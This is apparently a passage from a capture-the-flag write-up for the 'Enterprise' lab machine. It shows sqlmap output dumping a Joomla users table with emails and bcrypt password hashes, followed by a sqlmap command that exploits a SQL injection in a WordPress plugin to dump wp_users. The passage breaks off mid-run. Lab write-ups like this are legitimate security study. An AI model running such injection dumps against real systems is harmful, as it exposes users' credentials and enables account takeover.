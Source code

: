  ```shell 
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:04:46 /2020-07-22/

[19:04:47] [INFO] testing connection to the target URL
---SNIP---
Database: joomladb
Table: edz2g_users
[2 entries]
+------+---------+-------+--------------------------------+------------+---------+----------------------------------------------------------------------------------------------+-----------------+-----------+--------------------------------------------------------------+------------+------------+---------------------+--------------+---------------------+---------------------+
| id   | otep    | block | email                          | name       | otpKey  | params                                                                                       | username        | sendEmail | password                                                     | activation | resetCount | registerDate        | requireReset | lastResetTime       | lastvisitDate       |
+------+---------+-------+--------------------------------+------------+---------+----------------------------------------------------------------------------------------------+-----------------+-----------+--------------------------------------------------------------+------------+------------+---------------------+--------------+---------------------+---------------------+
| 400  | <blank> | 0     | geordi.la.forge@enterprise.htb | Super User | <blank> | {"admin_style":"","admin_language":"","language":"","editor":"","helpsite":"","timezone":""} | geordi.la.forge | 1         | $2y$10$cXSgEkNQGBBUneDKXq9gU.8RAf37GyN7JIrPE7us9UBMR9uDDKaWy | 0          | 0          | 2017-09-03 19:30:04 | 0            | 0000-00-00 00:00:00 | 2017-10-17 04:24:50 |
| 401  | <blank> | 0     | guinan@enterprise.htb          | Guinan     | <blank> | {"admin_style":"","admin_language":"","language":"","editor":"","helpsite":"","timezone":""} | Guinan          | 0         | $2y$10$90gyQVv7oL6CCN8lF/0LYulrjKRExceg2i0147/Ewpb6tBzHaqL2q | <blank>    | 0          | 2017-09-06 12:38:03 | 0            | 0000-00-00 00:00:00 | 0000-00-00 00:00:00 |
+------+---------+-------+--------------------------------+------------+---------+----------------------------------------------------------------------------------------------+-----------------+-----------+--------------------------------------------------------------+------------+------------+---------------------+--------------+---------------------+---------------------+

[19:05:11] [INFO] table 'joomladb.edz2g_users' dumped to CSV file '/home/pwnd_root/.sqlmap/output/10.10.10.61/dump/joomladb/edz2g_users.csv'
[19:05:11] [INFO] fetched data logged to text files under '/home/pwnd_root/.sqlmap/output/10.10.10.61'
[19:05:11] [WARNING] you haven't updated sqlmap for more than 92 days!!!

[*] ending @ 19:05:11 /2020-07-22/
```
**wordpress-** ***wp_users***
``` shell 
[pwnd_root@manjaro Enterprise]$ sqlmap -u http://10.10.10.61/wp-content/plugins/lcars/lcars_db.php?query=1 --dbms=mysql -D wordpress -T wp_users --dump
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.4#stable}
|_ -| . [,]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:08:33 /2020-07-22/

[19:08:33] [INFO] testing connection to the target URL
---SNIP---
```